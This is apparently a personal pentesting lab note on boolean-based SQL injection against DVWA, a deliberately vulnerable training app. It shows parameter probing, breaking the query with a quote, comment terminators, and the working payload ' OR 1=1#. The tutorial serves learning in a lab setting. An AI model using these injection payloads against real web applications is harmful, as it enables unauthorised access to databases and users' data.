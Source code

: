 # 02 - Craft Exploit

Search Tag(s): #sql-injection #boolean-based #dvwa

## 2.1 - Vulnerability Detection

### 2.1.1 - Exploring The Parameter

#### 2.1.1.1 - Exceed The Upper and Lower Boundary Limits

We will try to determine the range of the data resides in the database to find the limits by exceeding the boundary range.

```
id=0
id=1
id=2
id=3
id=4
id=5
id=6
```

The start of the valid responses.

![[01 - Valid Response Input Parameter Boundary Limits.png]]

Until reaching the end of the data of what is available in the database.

![[02 - Invalid Response Input Parameter Boundary Limits Exceeded.png]]

#### 2.1.1.2 - Testing Injection With Mathematical Expression

This will provide an indicator if the numeric values perform mathematical operation. A probable factor of SQL injection however nothing works.

```
id=6-1
id=6-2
id=5+1
id=2*2
id=6/3
```

#### 2.1.1.3 - Invalidate Values

This will provide a clear space to perform data collection when exploiting the parameter.

Exceeding the boundary limits. ^33ca41

```
id=99
id=-1
```

Changing the numeric datatype to decimal.

```
id=1.0
id=1.5
```

Using strings. ^840ca1

```
id=a
id=abcdef
```

Using SQL logical operators `OR`, `AND`, `XOR`, `NOT` ^860e62

```
id=1 AND 1=1
id=1 AND 1=2
```

### 2.1.2 - Testing Injection With Strings

#### 2.1.2.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[03 - Break Query.png]]

#### 2.1.2.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' '

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1''
```

- Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

- Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

- Let's imagine the vulnerable PHP code snippet from the webserver backend processes it. This isn't necessary but it's just for understanding the process.

```php
$sql = "SELECT first_name, last_name FROM users WHERE id = '$id'";
```

- We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.2.3 - Joining the Query (Comment Out Query)

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

```sql
'--
```

![[04 - Join Query with Double Dashes.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

```sql
'#
```

![[05 - Query Joined via Hashtag.png]]

![[06 - Query Joined via Hashtag Valid Response.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

```sql
'-- -
```

![[07 - Query Joined via Triple Dashes with Whitespace.png]]

![[08 - Query Joined via Triple Dashes with Whitespace Valid Response.png]]

Excellent now we can move on.

### 2.1.3 - Craft Payload

This is the syntax with a place holder of SQL payload.

```
'<SQL_Payload>#
```

### 2.1.4 - Retrieving Hidden Data

^9167dd

#### 2.1.4.1 - Exploit

Let's retrieve the hidden data.

```sql
' OR 1=1#
```

![[09 - Boolean-Based Query Payload.png]]

![[10 - Boolean-Based Response Returned Full Data.png]]

You can switch to different SQL logical operators `OR`, `AND`, `XOR`, `NOT`. Experiment this on your own depending on web application you're up against.

These techniques are possible due to the references I found online. I strongly recommend you to read them one by one because some SQL statement error responses may differ.

---
## References

- [[In-Band SQL Queries|Helpers: In-Band SQL Queries]]

- [GBHackers: Web Application Pentesting – Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [GBHackers: How to Perform Manual SQL Injection While Pentesting With Single Quote Error-Based Parenthesis Method](https://gbhackers.com/manual-sql-injection-2/)

- [GBHackers: How to Perform Manual SQL Injection With Double Quotes Error-Based String Method](https://gbhackers.com/perform-manual-sql-injection-2/)

- [GBHackers: Web Application Pentesting with Manual SQL Injection – Integer Based](https://gbhackers.com/perform-manual-sql-injection/)

- [Best approach to Error-Based SQL injection](https://medium.com/@anekantsinghai/best-approach-to-error-based-sql-injection-30c73fd8fa41)
